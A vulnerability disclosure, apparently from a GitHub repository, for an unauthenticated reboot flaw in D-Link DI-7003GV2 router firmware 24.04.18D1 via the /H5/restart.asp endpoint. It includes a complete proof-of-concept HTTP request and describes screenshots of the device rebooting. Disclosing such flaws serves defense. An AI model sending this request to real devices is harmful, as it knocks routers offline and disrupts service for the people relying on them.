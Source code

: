 # Overview

- Manufacturer's website information：https://www.dlink.com/
- Firmware download address ：http://www.dlink.com.cn/techsupport/download.ashx?file=7828

# Affected version

DI-7003GV2-24.04.18D1 R(68125)

# Vulnerability description

The D-Link DI-7003GV2 firmware version 24.04.18D1 R(68125) contains an authentication bypass vulnerability in the `/H5/restart.asp` interface. Remote attackers can reboot the device without authentication by sending a crafted HTTP request. Exploitation causes immediate service disruption and temporary denial of access while the device restarts.

# Vulnerability details

The processing function for the `H5/restart.asp` interface is `sub_49826C`.

![图 0](img/5af1a48ac7d4eecbf498f4325d23c6ac46c2f7c54fef89ff58c7eb7d53128fcb.png)  

`sub_49826C` function will reboot the device.

![图 1](img/f3e66cd7f4efee4175d521f24b51daa1c63afc233e9956f222fe04216d5caeb0.png)  


# Poc

After sending the data packet, a success message will be received.

```http
GET /H5/restart.asp HTTP/1.1
Host: 192.168.140.240
Content-Length: 0
Cache-Control: max-age=0
Origin: http://192.168.140.240
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36 Edg/135.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.140.240/login.html
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: keep-alive
```

![图 2](img/cf2d4b3b3656a38e25530862d037f2c9dd376f459363f4be3d7d46b63be8b365.png)  

The device is no longer accessible and the reboot process has begun.

![图 3](img/459928023eb1e003c1cc992ebd156c456d6d2aa1b7c5ebd50f2413a5563a0171.png)  

About two minutes later, the device became accessible, and the device's runtime changed to 1 minute and 5 seconds.

![图 4](img/5e7355475fe216da4d08ef6e8f1ba071f5e192e78dbfab3ba81b125e2e2e6b6d.png)  
